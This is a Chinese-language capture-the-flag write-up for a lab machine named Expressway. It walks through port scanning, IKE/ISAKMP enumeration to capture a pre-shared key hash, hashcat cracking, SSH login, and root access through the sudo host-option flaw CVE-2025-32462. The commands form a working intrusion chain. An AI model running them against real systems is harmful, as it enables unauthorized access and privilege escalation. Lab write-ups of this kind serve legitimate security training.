# Expressway #
## nmap探测 ##
#### `nmap -sT --min-rate 10000 -p- 10.10.11.87`


#### tcp探测只检测到22端口，换udp探测
#### `nmap -sU --min-rate 10000 -p- 10.10.11.87`
#### 探测到500端口


#### 进行详细探测 `nmap -sU -sC -sV -O -A -p500 10.10.11.87`


#### 查一下isakmp是什么服务，以前没见过
#### https://book.hacktricks.wiki/zh/network-services-pentesting/ipsec-ike-vpn-pentesting.html?highlight=isakmp


## isakmp攻击 ##
#### 端点探测`ike-scan -M 10.10.11.87`


#### 重点关注Auth和1 returned handshake; 0 returned notify
#### 服务器指纹识别 `ike-scan -M --showbackoff 10.10.11.87`


#### 尝试使用伪造的id获取hash `ike-scan -P -M -A -n fakeID 10.10.11.87`


#### 在拿到hash的同时也获得了一个ike@expressway.htb

#### hash破解 `hashcat -m 5400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

#### 尝试使用ike和破解结果登陆ssh


## 提权 ##




#### 1.9.17存在提权漏洞[CVE-2025-32462](https://www.exploit-db.com/exploits/52354)需要一个主机名

####
#### 查找当前用户组的权限目录 `find / -group proxy -type d 2>/dev/null`


#### 在var目录下使用`grep -ri expressway.htb 2>/dev/null`命令查找


#### `sudo -h offramp.expressway.htb -i`

